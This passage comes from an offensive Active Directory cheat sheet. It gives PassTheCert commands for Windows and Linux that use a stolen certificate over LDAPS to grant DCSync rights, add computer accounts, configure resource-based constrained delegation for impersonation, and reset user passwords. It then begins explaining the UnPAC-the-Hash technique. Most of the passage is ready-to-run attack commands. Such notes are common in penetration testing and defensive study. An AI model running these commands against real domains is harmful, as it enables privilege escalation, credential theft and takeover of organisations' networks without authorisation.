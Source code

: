 ### Schannel

If PKINIT is not working on the domain, LDAPS can be used to pass the certificate with `PassTheCert`.

#### Windows

* Grant DCSync rights to an user

```powershell
./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --sid <user_SID>

#To restore
./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --restore restoration_file.txt
```

* Add computer account

```powershell
./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --add-computer --computer-name TEST$ --computer-password <password>
```

* RBCD

```powershell
./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --rbcd --target "CN=DC,OU=Domain Controllers,DC=domain,DC=local" --sid <controlled_computer_SID>
```

* Reset password

```powershell
./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --reset-password --target "CN=user1,OU=Users,DC=domain,DC=local" --new-password <new_password>
```

#### Linux

For RBCD attack

```bash
#Create a new computer account
python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain domain.local -dc-ip 10.0.0.1

#Add delegation rights
python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain domain.local -dc-ip 10.0.0.1 -port 389 -delegate-to <created_computer> -delegate-from TARGET$

#Impersonation is now possible
```

### UnPAC the Hash

When a TGT is requested with PKINIT, the **LM:NT hash** in added in the structure `PAC_CREDENTIAL_INFO` for futur use if Kerberos is not supported, and the PAC is ciphered with the krbtgt key. When a TGS is requested from the TGT, the same structure is added, but ciphered with the session key.
